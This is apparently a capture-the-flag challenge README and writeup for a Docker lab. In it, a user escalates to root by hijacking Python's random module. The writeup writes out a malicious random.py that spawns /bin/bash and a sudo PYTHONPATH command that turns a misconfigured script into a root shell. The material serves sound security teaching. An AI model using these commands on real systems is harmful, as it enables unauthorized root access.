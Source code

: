 **Library Hijacking CTF Challenge**

**🏴 Challenge Overview**

Welcome to the **Library Hijacking CTF** challenge! This is a beginner-to-intermediate level machine-based CTF where the attacker needs to escalate privileges by exploiting a misconfigured Python script that runs with root privileges.

---

**🎯 Objective**

Your goal is to gain **root access** by exploiting a Python library hijacking vulnerability. You will connect to the machine using **SSH**, enumerate the system, and escalate privileges to obtain a root shell.

---

**🛠 Setup**

This challenge runs inside a **Docker container**. To deploy it, use the following commands:

```
docker pull e51am/ctf
docker run -dit --name library_hijacking_ctf -p 2222:22 e51am/ctf
```

Once the container is running, you can SSH into the machine using:

```
ssh ctfuser@localhost -p 2222
Password: password
```

---

**📌 Hints**

- Use `sudo -l` to check for **executable scripts with sudo privileges**.
- Find out which **libraries** the vulnerable script imports.
- Hijack the **imported library** to execute arbitrary code.

---

# Writeup

**🔍 Enumeration & Exploitation**

**1️⃣ Initial Access**

- The attacker discovers **credentials** for SSH login: **Username:** `ctfuser`**Password:** `password`
- Using the credentials, they connect via SSH:
    
    ```
    ssh ctfuser@localhost -p 2222
    ```
    

**2️⃣ Privilege Escalation - Enumerating sudo Permissions**

- Running the following command reveals a **sudo misconfiguration**:
    
    ```
    sudo -l
    ```
    or use linEnum.sh
  
- Output:
    
    ```
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/scripts/vulnerable_script.py
    ```
    
- This means `ctfuser` can set the environment and execute `vulnerable_script.py` **as root** without a password.


**4️⃣ Analyzing the Vulnerable Script**

- Checking the contents of `/opt/scripts/vulnerable_script.py`:**Output:**
    
    ```
    cat /opt/scripts/vulnerable_script.py
    
    ```
    
    ```
    import random
    choices = ["Rock", "Paper", "Scissors"]
    computer = random.choice(choices)
    player = False
    cpu_score = 0
    player_score = 0
    while True:
      player = input("Rock, Paper or  Scissors?").capitalize()
      ## Conditions of Rock,Paper and Scissors
      if player == computer:
          print("Tie!")
      elif player == "Rock":
          if computer == "Paper":
              print("You lose!", computer, "covers", player)
              cpu_score+=1
          else:
              print("You win!", player, "smashes", computer)
              player_score+=1
      elif player == "Paper":
          if computer == "Scissors":
              print("You lose!", computer, "cut", player)
              cpu_score+=1
          else:
              print("You win!", player, "covers", computer)
              player_score+=1
      elif player == "Scissors":
          if computer == "Rock":
              print("You lose...", computer, "smashes", player)
              cpu_score+=1
          else:
              print("You win!", player, "cut", computer)
              player_score+=1
      elif player=='End':
          print("Final Scores:")
          print(f"CPU:{cpu_score}")
          print(f"Plaer:{player_score}")
          break
    ```
    
- The script imports **random**, which we can **hijack**!

5️⃣ **Exploiting Library Hijacking**

- We create a **malicious version** of `random.py` in `/tmp`:
    
    ```
    echo 'import os; os.system("/bin/bash")' > /tmp/random.py
    
    ```
    
- Set the `PYTHONPATH` to prioritize our malicious library:
    
    ```
    sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/scripts/vulnerable_script.py
    
    ```
    
- This spawns a **root shell**! 🎉

---

**🏆 Capture the Flag**

Once you gain root access, find the flag inside:

```
cat /root/flag.txt
```

---

**🚀 Conclusion**

This challenge teaches **privilege escalation via Python library hijacking**, a common misconfiguration found in real-world scenarios. Happy hacking! 🏴‍☠️

---

**📜 Disclaimer**

This challenge is for **educational purposes only**. Do not attempt these techniques on unauthorized systems!
